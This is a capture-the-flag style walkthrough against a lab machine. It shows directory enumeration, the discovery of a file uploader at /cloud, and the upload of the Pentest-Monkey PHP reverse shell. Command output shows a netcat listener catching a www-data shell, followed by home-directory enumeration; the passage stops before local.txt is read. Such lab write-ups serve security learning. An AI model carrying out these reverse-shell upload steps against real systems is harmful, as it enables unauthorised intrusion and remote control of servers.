 ```r
===============================================================
/css                  (Status: 301) [Size: 306] [--> http://10.10.95.7/css/]
/cloud                (Status: 301) [Size: 308] [--> http://10.10.95.7/cloud/]
Progress: 6419 / 87665 (7.32%)                                               ^C
[!] Keyboard interrupt detected, terminating.
                                                                              
===============================================================
2024/01/13 23:48:47 Finished
===============================================================
```
I was able to identify two sub domains, ``/css and /cloud``, very interesting

**Let's take a look at /cloud sub domain**
![[Screenshot 2024-01-13 at 11.50.41 PM.png]]

File uploader. veery interesting. Let us see whether we can upload a reverse shell and if it is vulnerability, then we have a shell on the machine. 
[Pentest-Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Using the pentest money script I created a pentest-money.php script, started the python webserver and also started listening with ncat on 4444

Python webserver:
```r
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.95.7 - - [13/Jan/2024 23:57:30] "GET /pentest-monkey.php HTTP/1.1" 200 -
```
 
 And I was able to get a shell on the machine:
```r
nc -nvlp 4444                 
listening on [any] 4444 ...
connect to [10.6.42.185] from (UNKNOWN) [10.10.95.7] 46984
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 04:57:35 up 11 min,  0 users,  load average: 0.00, 0.44, 0.57
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Enumerating the Target host
```r
/home/sysadmin
$ ls -la
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22  2023 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
$ 
```
We see the local.txt but we cannot access it.
